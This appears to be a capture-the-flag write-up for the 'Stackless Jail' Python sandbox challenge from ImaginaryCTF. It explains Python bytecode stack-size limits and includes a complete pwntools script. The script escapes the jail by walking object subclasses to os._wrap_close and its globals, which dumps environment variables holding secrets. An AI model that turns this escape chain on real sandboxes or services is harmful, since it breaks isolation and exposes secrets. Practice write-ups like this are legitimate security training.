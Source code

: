 # ImaginaryCTF Round 23 June 2022 Stackless Jail

```python
import dis
del __builtins__.__dict__['breakpoint']
del __builtins__.__dict__['help']

print("Welcome to the python calculator!", "Pls No Steal My Flag Which Is In An Environment Variable :<", sep='\n')

if __name__ == '__main__':
    try:
        math = input('> ')
        info = dis.code_info(math).split("\n")
        assert "Stack size:        1" in info

        exec(math, {}, results := {})
        for var, res in results.items():
            print(f"{var} = {res}")
    except:
        print("smh")

# Server: python 3.8
```

Requirements:

1. Function can only use at most one stack element: use `CALL_FUNCTION` instead of `CALL_METHOD`, i.e. use `B = A.method; C = B()` instead of `A.method()`

Inspired by <https://github.com/jailctf/pyjail-collection/tree/main/chals/stackless-jail> and official writeup at <https://imaginaryctf.org/ArchivedChallenges/30>.

This challange requires us to write some code that reads from the environment variable. However, only one stack element can be used. If we directly run `import os` and `os.environ()`, the opcode is:

```python
$ python3.8
>>> import dis
>>> dis.dis("import os; os.environ()")
  1           0 LOAD_CONST               0 (0)
              2 LOAD_CONST               1 (None)
              4 IMPORT_NAME              0 (os)
              6 STORE_NAME               0 (os)
              8 LOAD_NAME                0 (os)
             10 LOAD_METHOD              1 (environ)
             12 CALL_METHOD              0
             14 POP_TOP
             16 LOAD_CONST               1 (None)
             18 RETURN_VALUE
>>> dis.show_code("import os; os.environ()")
Stack size:        2
```

The opcodes require at least two stack elements, according to <https://docs.python.org/3.8/library/dis.html>:

1. IMPORT_NAME: pop TOS and TOS1, push the module object
2. CALL_METHOD: either self and an unbound method object or NULL and an arbitrary callable are on the stack

However, we can call function if we have the function object at TOS and use `CALL_FUNCTION`:

```
CALL_FUNCTION(argc):

Calls a callable object with positional arguments. argc indicates the number of
positional arguments. The top of the stack contains positional arguments, with
the right-most argument on top. Below the arguments is a callable object to
call. CALL_FUNCTION pops all arguments and the callable object off the stack,
calls the callable object with those arguments, and pushes the return value
returned by the callable object.
```

So to call function, instead of calling it from object directly, we can save it to a variable and call it:

```python
$ python3.8
>>> import dis
>>> dis.dis("p = print; p()")
  1           0 LOAD_NAME                0 (print)
              2 STORE_NAME               1 (p)
              4 LOAD_NAME                1 (p)
              6 CALL_FUNCTION            0
              8 POP_TOP
             10 LOAD_CONST               0 (None)
             12 RETURN_VALUE
>>> dis.show_code("p = print; p()")
Stack size:        1
```

However, we can't pass args to the functions. So we can't use `__import__("os")`. We can use the trick of `()` -> `object` -> `subclasses` -> `os._wrap_close` -> `os` to find it. Every function call must be broken into steps to avoid using excessive stack elements. To access list element, use `arr.pop()` until the entry is poped from the array instead of `arr.[index]`.

Attack:

```python
from pwn import *

context(log_level="debug")

# find index of os._wrap_close
p = process(["python3.8", "stackless-jail.py"])
p.recvuntil(b"> ")
p.sendline(
    (
        "A = ();"
        + "B = A.__class__;"
        + "C = B.__base__;"
        + "D = C.__subclasses__;"
        + "E = D();"
    ).encode()
)
p.recvuntil(b"E =")
res = p.recvline().decode()
length = res.count(", ") + 1
os_wrap_close_index = res.split(", ").index("<class 'os._wrap_close'>")
print(os_wrap_close_index)

# pop until we found os._wrap_close
p = process(["python3.8", "stackless-jail.py"])
p.recvuntil(b"> ")
p.sendline(
    (
        "A = ();"
        + "B = A.__class__;"
        + "C = B.__base__;"
        + "D = C.__subclasses__;"
        + "E = D();"
        + "F = E.pop;"
        + "".join(["F();"] * (length - os_wrap_close_index - 1))
        + "G = F();"  # now G is os._wrap_close
        + "H = G.__init__;"
        + "I = H.__globals__;"
        + "J = I.values;"
        + "K = J();"  # call os._wrap_close.__init__.__globals__.values()
    ).encode()
)
p.recvuntil(b"K =")
# os.environ content is already printed as part of os.environ/os.environb, no need to call os.environ()
```
